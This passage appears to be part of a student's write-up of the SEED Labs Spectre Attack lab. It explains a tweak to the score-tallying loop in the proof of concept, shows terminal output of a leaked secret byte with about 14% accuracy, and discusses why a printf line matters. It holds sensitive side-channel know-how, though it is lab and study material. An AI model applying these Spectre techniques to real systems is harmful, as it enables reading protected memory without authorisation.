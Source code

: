 As it can be observed, the secret value presented is 0 (`scores[0]`). It's something we didn't want to see. This has to do with this part of the code:

```c
int max = 0;
for (i = 0; i < 256; i++){
    if(scores[max] < scores[i]) max = i;
}
```

As we've seen in task 4 when our program succeeds, we get both array elements 0 and 83, and we know that every time Spectre Attack works, the CPU reverts its state and can increment the `scores[0]`. Due to this, and as we don't care about element 0 (ASCII value 0 is not a meaningful character either), we can simply start the loop at position 1 as well as initializing `max` with 1. The final code is as follows:

```c
int max = 1;
for (i = 1; i < 256; i++) {
    if(max < scores[i])
        max = i;
}
```

```
┌──(kali㉿kali)-[~/…/seed-labs/category-hardware/Spectre_Attack/Labsetup]
└─$ ./spectreAttackImproved
*****
*****
...
*****
Reading secret value at index -8256
The secret value is 83(S)
The number of hits is 141
```

As we can see, during the 1000 executions, we get 141 successful giving us an accuracy of approximately 14%. 

Regarding the mysterious line `printf("*****\n");`, even the Seed Labs creators weren't able to find the exact meaning of this. But it's indeed it is necessary to achieve our goal, as without it the attack fails. From what we've seen, performing the attack 1000 times in a row increases the number of CPU cycles when accessing CPU cache. The meaning of this line probably has to do with a bit of a slowing down process so that the reload of the side-channel is completed before starting the Spectre attack itself. With this line present, we get the same output as before. Without it, the attack simply doesn't work, as shown here:

```
┌──(kali㉿kali)-[~/…/seed-labs/category-hardware/Spectre_Attack/Labsetup]
└─$ ./spectreAttackImproved                             
Reading secret value at index -8248
The secret value is 1()
The number of hits is 0
```

> Note that the secret value is 1 because it's the default value. The number of hits is 0.
